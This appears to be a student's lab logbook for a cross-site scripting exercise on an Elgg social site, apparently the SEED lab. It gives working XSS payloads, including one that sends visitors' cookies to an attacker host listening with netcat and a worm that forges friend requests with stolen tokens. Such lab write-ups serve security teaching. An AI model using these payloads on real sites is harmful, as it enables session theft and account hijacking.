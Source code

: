 # Log Book 7

## Environment Setup

We successfuly changed the hosts file and ran the server using the `docker-compose` commands.

## Task 1

For this task we want to inject a script into our profile.
We achieved this by posting the following script into our description:

```html
<script>
  console.log("hello");
</script>
```

We will be using `console.log` instead of `alert` to display the required information because
our firefox version blocks all pop-up windows.  
When any user visits our profile, the following message is displayed.

![Task1_Result](LOGBOOK10_img/task1.png)

## Task 2

By changing the description to the following script, we can see the user's cookies.

```
<script>console.log(document.cookie);</script>
```

As can be seen in the picture bellow

![Task2_Result](LOGBOOK10_img/task2.png)

## Task 3

In this task we want to be able to send the user's cookies to a server that belongs
to us, the attacker. In the script bellow, we imbed the cookies that we want to send
in a request that will be made to the attacker's machine

```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

We use the netcat command line tool to listen for any requests made from users that
visited our profile. These requests contain the user's cookies, as can be seen bellow:

![Task3_Result](LOGBOOK10_img/task3.png)

## Task 4

The objective of this task is to write a worm that adds Samy to a user's friend
list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension _HTTP Header Live_,
we can find how a friend HTTP request is encoded:

![Task4_Request](LOGBOOK10_img/task4_request.png)

Using this information, we can create a script that, when executed, forges a request
that adds Samy as a friend to the logged in user.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Similar to the previous tasks, we place this script in our description so that it
will be executed by a user when he enters our profile.

### Example

1. We are logged in as Alice, as can be seen we only have Charlie as our friend.

![Task4_AliceProfile](LOGBOOK10_img/task4_alice_profile.png)

2. When we visit Samy's profile, our script sends a forged friend request.

![Task4_Request](LOGBOOK10_img/task4_request.png)

- We can see that the script was successful, as now we can remove him Samy as a friend.

![Task4_SamyProfile](LOGBOOK10_img/task4_samy_profile.png)

3. When we visit our profile, we can see that we Samy is now our friend.

![Task4_SamyProfileAfterFriend](LOGBOOK10_img/task4_alice_profile_after_friend.png)
